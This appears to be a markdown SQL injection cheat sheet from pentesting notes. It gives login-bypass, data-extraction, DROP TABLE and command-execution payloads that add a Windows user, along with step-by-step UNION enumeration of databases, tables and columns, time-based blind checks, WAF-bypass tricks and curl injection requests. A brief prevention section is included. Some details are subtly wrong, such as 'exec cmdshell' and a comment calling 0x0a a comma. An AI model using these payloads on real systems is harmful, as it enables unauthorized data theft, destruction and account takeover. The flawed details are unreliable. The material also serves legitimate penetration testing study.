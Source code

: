 #### Malicious query example

##### Login bypass input example


WORDLIST : /usr/share/seclists/Fuzzing/Databases/sqli.auth.bypass.txt

```
$query = "SELECT first_name, last_name FROM users WHERE user_id= '$id‘ AND password = ‘$pass’;";

$id = ' or 1<2 -- -
	
$query = "SELECT first_name, last_nameFROM users WHERE user_id= ‘’ or 1<2 ---‘ AND password = ‘$pass’;";
```

##### Data collection input example

```
$query = "SELECT first_name, last_name FROM users WHERE user_id= '$id‘ AND password = ‘$pass’;";

$id = 1’ and SELECT password FROM users -- -

$query = "SELECT first_name, last_name FROM users WHERE user_id = ‘1’ and SELECT password FROM users -- -‘ AND password = ‘$pass’;";
```

##### Delete data input example

```
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id‘ AND password = ‘$pass’;";

$pass = ‘; DROP TABLE users -- -

$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id‘ AND password = ‘’; DROP TABLE users -- -’;";
```

##### Remote code execution input example

The SQL server context needs to run as “sa”

```
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id‘ AND password = ‘$pass’;";

$pass = ‘; exec cmdshell ‘net user pentester pentesterpassword /ADD’ -- -

$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id‘ AND password = ‘‘; exec cmdshell 'net user pentester pentesterpassword /ADD’ -- -’;";
```

#### Detection

Test with quote and double quote

- Legitimate request : http://www.example.com/gallery.php?id=6
- Illegitimate request : http://www.example.com/gallery.php?id=6′

▪ Syntax error

#### Verification

- Confirm with delay :

```
mysql : SLEEP(5)
mssql : WAITFOR DELAY '0:0:5'
```

##### Error based

The error output helps a lot for understanding the consequences linked to injections

##### Time based

This kind of attack injects a SQL segment which contains specific DBMS function such as SLEEP for MYSQL.

Depending on the time it takes to get the server response, it is possible to deduct some information.

##### Blind SQLi

No error returned by the application.

Ask the database true or false questions and determine the answer based on the application responses.

#### Exploitation

##### 1. Determine the number of columns

- http://www.example.com/gallery.php?id=6 order by 1
- http://www.example.com/gallery.php?id=6 order by 6

- The request returns an error when N=6
- Stop when you get an error the number of columns will be N-1
- 5 columns for this example

##### 2. Print the current page connected columns

http://www.example.com/gallery.php?id=6 union all select 1,2,3,4,5

- Make sure the number of columns is the same for both selects
- Be carreful to data type ! (null, 'a', 1 ...)

##### 3. Get database and its version

- http://www.example.com/gallery.php?id=6 union all select 1,database(),3,4,5
- http://www.example.com/gallery.php?id=6 union all select 1,version(),3,4,5

- Syntax is different depending on the database
	- MSSQL Server
	- MySQL
	- Oracle
	- ...

##### 4. Get database names

http://www.example.com/gallery.php?id=6 union all select 1,group_concat(schema_name),3,4,N-1 from Information_schema.schemata-- -

##### 5. Get table names

http://www.example.com/gallery.php?id=6 union all select 1,group_concat(table_name),3,4,N-1 from Information_schema.tables where table_schema=database()-- -

##### 6. Retrieve column names

http://www.example.com/gallery.php?id=6 union all select 1,group_concat(column_name),3,4,N-1 from Information_schema.columns where table_name=mysqlchar-- -

##### Gather the data

http://www.example.com/gallery.php?id=6 union all select 1,group_concat(column_name,0x0a),3,4,N-1 from table_name
 - 0x0a is the hex value of comas. It will separate the table data into columns

#### Tools

- SQLMap : https://github.com/sqlmapproject/sqlmap

#### Prevention

- Never build SQL commands manually
- Escape & Encode
	- Special characters
	- Single quote and double quote
- Use parameterized / prepared SQL statements
	- It forces the user input to be considered as the content of a parameter
	- It is not considered as a part of a SQL command
- Limit data and privileges that a database has access to (least privilege)

#### Bypass

- SQL comments and case changing
	- `Sel/**/EcT`
- URL encoding
	- `/*!se%6cect*/`
	- `/*!se%6cect*/`
- Replaced Keywords
	- `SEselectLECT`
- https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF


----------------------

#### MSSQL without SQLmap

TODO...

#### Time Based

1. Detect the SQLi 
2. Confirm with delay
3. Simple POST request 

```
curl --data "username=pentest&pass=pentest&submit=Submit" http://$IP/
```
4. Simple POST request with delay

```
curl --data "username=pentest&pass=pentest';  WAITFOR DELAY '0:0:5';--&submit=Submit" http://$IP/
```
